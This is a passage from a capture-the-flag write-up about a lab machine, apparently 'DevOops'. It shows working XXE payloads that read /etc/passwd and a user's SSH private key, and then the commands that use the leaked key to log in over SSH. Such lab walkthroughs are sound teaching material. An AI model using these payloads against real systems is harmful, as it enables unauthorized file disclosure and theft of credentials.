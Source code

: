 The next step is to check that the server is vulnerable to an **[XXE (XML external entity) attack](https://portswigger.net/web-security/xxe){:target="_blank"}**, for this I will first upload a file with the necessary structure to leak the **passwd** system file. As the answer is successful and I have the list of all the users of the system I am going to look for the **id_rsa** of each one of them (that have assigned as Shell a **bash**), and I find the one of **roosa's account**. So if I create a file with the content of the leak **id_rsa** and give it the corresponding permissions (**600**) to avoid problems when connecting by **SSH**, the key allows me to connect without problems.

```bash
nvim xxe.xml
```

> **xxe.xml**:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<element>
  <Author> &xxe; </Author>
  <Subject> passwd file leak </Subject>
  <Content> first attempt </Content>
</element>
```

```bash
nvim xxe2.xml
```

> **xxe2.xml**:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
<!ENTITY xxe SYSTEM "file:///home/roosa/.ssh/id_rsa"> ]>
<element>
  <Author> &xxe; </Author>
  <Subject> passwd file leak </Subject>
  <Content> first attempt </Content>
</element>
```

```bash
nvim id_rsa
cat id_rsa | head -n 5
chmod 600 id_rsa
ssh -i id_rsa roosa@10.10.10.91
```

<br />
<img src="{{ site.img_path }}/devoops_writeup/DevOops_10.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/devoops_writeup/DevOops_11.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/devoops_writeup/DevOops_12.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />
